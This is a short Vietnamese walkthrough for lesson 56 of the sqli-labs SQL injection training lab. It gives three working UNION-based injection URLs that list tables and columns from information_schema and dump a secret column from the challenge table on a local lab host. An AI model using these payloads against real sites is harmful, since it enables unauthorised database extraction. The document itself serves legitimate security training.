 # Less 56

Thực hiện giống với [Less 55](Less-55.md)

![](../images/sqli-labs/Less-56/01.png)

Show tên table

```
http://192.168.84.233/sqli-labs/Less-56/index.php?id=1') union select 1,1,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/sqli-labs/Less-56/06.png)

Show các cột trong bảng vừa show được

```
http://192.168.84.233/sqli-labs/Less-56/index.php?id=1') union select 1,1,group_concat(column_name) from information_schema.columns where table_schema='challenges' limit 1,1 --+
```

![](../images/sqli-labs/Less-56/07.png)

Show thông tin bên trong bảng

```
http://192.168.84.233/sqli-labs/Less-56/index.php?id=1') union select 1,1,concat(id," ",sessid," ",secret_WKZV," ",tryy) from GQQZOOJF9X limit 1,1 --+
```

![](../images/sqli-labs/Less-56/08.png)

Lấy chuối show được submit

![](../images/sqli-labs/Less-56/09.png)
